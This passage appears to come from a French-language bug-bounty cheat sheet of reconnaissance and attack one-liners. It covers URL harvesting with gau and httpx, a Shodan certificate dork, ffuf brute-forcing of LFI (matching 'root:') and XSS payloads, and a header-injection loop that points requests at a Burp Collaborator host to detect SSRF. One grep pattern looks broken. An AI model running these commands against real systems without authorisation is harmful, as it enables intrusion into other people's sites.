 ## Filtrage par Type de Contenu

### Vérification de Type de Contenu
Vérifie le type de contenu des URLs.

```
echo example.com | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'
```

### Vérification de Contenu JavaScript
Vérifie le contenu JavaScript dans les URLs.

```
echo example.com | gau | grep '\.js-php-jsp-other extens$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
```

## Dorks Shodan

### Recherche de Certificat SSL
Recherche les certificats SSL en utilisant Shodan.

```
Ssl.cert.subject.CN:"example.com" 200
```

## Méthode FFUF avec Fichier de Requête

### LFI avec Fichier de Requête
Utilise FFUF pour bruteforcer les vulnérabilités LFI en utilisant un fichier de requête.

```
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr "root:"
```

### XSS avec Fichier de Requête
Utilise FFUF pour bruteforcer les vulnérabilités XSS en utilisant un fichier de requête.

```
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"
```

## Techniques Avancées

### Test d'En-tête XSS/SSRF
Teste les vulnérabilités XSS et SSRF en utilisant diverses méthodes.

```
cat example.coms.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ""\n";done
```

